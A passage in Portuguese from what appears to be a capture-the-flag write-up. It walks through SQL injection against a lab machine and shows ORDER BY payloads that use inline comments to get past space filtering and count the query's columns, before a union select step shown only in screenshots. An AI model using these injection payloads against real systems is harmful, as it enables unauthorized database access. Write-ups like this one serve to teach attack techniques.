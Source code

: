 Então seguimos tentando descobrir o número de colunas.

```bash
')/**/ORDER/**/BY/**/1# true
')/**/ORDER/**/BY/**/2# true
')/**/ORDER/**/BY/**/3# true
')/**/ORDER/**/BY/**/4# true
')/**/ORDER/**/BY/**/5# true
')/**/ORDER/**/BY/**/6# false
```

Agora sabemos que temos 5 colunas, ele retorna um erro quando usamos order by 6.

![image](/assets/img/post/intentions/10.png)

Usando union select vamos descobrir a versão dessa banco de dados.

![image](/assets/img/post/intentions/11.png)

![image](/assets/img/post/intentions/12.png)
